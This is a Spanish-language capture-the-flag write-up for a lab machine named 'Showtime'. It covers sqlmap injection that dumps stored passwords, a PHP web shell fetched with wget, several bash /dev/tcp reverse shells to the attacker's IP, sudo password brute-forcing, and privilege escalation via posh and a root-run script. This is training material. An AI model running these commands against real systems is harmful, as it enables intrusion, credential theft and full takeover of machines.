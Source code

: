 # SHOWTIME

## INTRUSIÓN

Iniciamos haciendo un escaneo de nmap con el siguiente comando "nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2"

![nmap](../../../maquina-showtime/imagenes/nmap.png)

Vemos que el puerto 80 y 22 están abiertos, así que exploraremos el puerto 80.

Puerto 80:

![Puerto 80](../../../maquina-showtime/imagenes/puerto80.png)

Lo mas interesante que vemos es el botón de login, así que lo presionamos y nos redirecciona a un panel de login.

Luego de intentar con credenciales tipicas como "admin:admin", "root:root" y ver que no funcionan intentamos poner una comilla para ver si es vulnerable a inyección sql. Al hacerlo comprobamos que es vulnerable así que podemos proceder a usar sqlmap.

"sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch "

sqlmap encuentra lo siguiente:

![sqlmap](../../../maquina-showtime/imagenes/sqlmap.png)

Ahora vamos a listar las bases de datos con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch --dbs" nos encuentra una llamada 'users', luego vemos las tablas de esa base de datos con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch -D users --tables" y nos muestra una tabla llamada 'usuarios'. Ahora veremos que contiene con "sqlmap -u "http://172.17.0.2/login\_page/index.php" --forms --batch -D users -T usuarios --dump". Nos encuentra tres usuarios y vemos que sus contraseñas estan guardadas de manera insegura en texto.

![usuarios](../../../maquina-showtime/imagenes/usuarios.png)

Ahora pruebo en el login uno por uno y el mas interesante es el usuario 'joe' que tiene un panel para ejecutar codigo de python. Lo primero que se me ocurre es subir un archivo .php que nos permita enviarnos una reverse shell. Pero primero debemos crearnos la reverse shell en nuestra maquina local con el siguiente codigo en su interior:

```php
<?php
      system($_GET['cmd']);
?>
```

Abriremos un servidor de python con "python3 -m http.server 9090" y luego escribiremos el siguiente codigo:

```python
import os

os.system("wget nuestraip:9090/shell.php") 
```

vemos si se creó con éxito usando

```python
import os
os.system("ls")
```

Al ver que se creó con éxito usamos el mismo código pero reemplazando 'ls' por 'chmod +x shell.php'. Ahora intentamos entrar desde el navegador y agregaremos lo siguiente en la barra de búsqueda para ver si funciona el script; '?cmd=whoami'. Comprobamos que funciona y ya nos podemos enviar una reverse shell a nuestra ip escuchando con netcat. Para hacerlo ponemos en el terminal:

```bash
nc -nlvp 443
```

y en la barra de búsqueda en vez de 'whoami' ponemos:

```bash
bash -c 'bash -i >%26 /dev/tcp/(nuestra ip)/443 0>%261'
```

y recibiremos la reverse shell.

## TRATAMIENTO DE LA TTY

para poder quedarnos con un terminal cómodo hacemos lo siguiente:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg 
	reset xterm
export TERM=xterm && export SHELL=bash
```

## ESCALADA DE PRIVILEGIOS

Si vamos al directorio '/tmp' podemos ver un archivo llamado '.hidden\_text.txt', vemos su interior y encontramos una mensaje para "martin" con una lista de trucos favoritas, supongo que esta el usuario "martin" pero al ver el archivo "passwd" veo que solo existe 'joe' y 'luciano'. Ahora para probar las contraseñas podemos usar el siguiente script [Sudo\_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y para probar las contraseñas nos las metemos en un .txt en nuestra maquina local borrando el mensaje para martin y pasamos todas las letras a minuscula con :

```bash
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt

```

una vez que lo tenemos en minusculas nos lo pasamos a la maquina victima e intentamos usarlo con el usuario joe. Nos encuentra la que contraseña de joe es "chittychittybangbang" asique ahora podemos escalar al usuario joe con su.

## JOE

Como tenemos la contraseña de joe podemos ejecutar sudo -l para ver si podemos ejecutar algo con sudo

![joe-l](../../../maquina-showtime/imagenes/joe-l.png)

Vemos que lo unico que podemos ejecutar es "/bin/posh" como el usuario "luciano". Luego de buscar en [gtfobins](https://gtfobins.github.io/gtfobins/posh/#sudo) vemos que se puede escalar con "posh" usando:

```bash
sudo -u luciano posh
```

## LUCIANO

Ya en el perfil de luciano ponemos "bash" para tener un terminal mas comodo, y nuevamente "sudo -l". Vemos que luciano puede ejecutar como root lo siguiente:

![luciano-l](../../../maquina-showtime/imagenes/luciano-l.png)

Vamos al path del script usando "cd" y vemos que contiene. Al fijarnos vemos que parece tener un script para enviar una reverse shell, por lo que intentaremos modificarlo. Pero como no existe el binario nano ni vim tendremos que hacerlo con el comando "echo" de la siguiente manera:

```bash
echo -e '#!/bin/bash\n\nbash -c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"'' > script.sh
```

Ya solo nos queda ponernos en escucha con netcat y ejecutar el script como root y listo.

![ROOT](../../../maquina-showtime/imagenes/ROOT.png)

Ya somos root
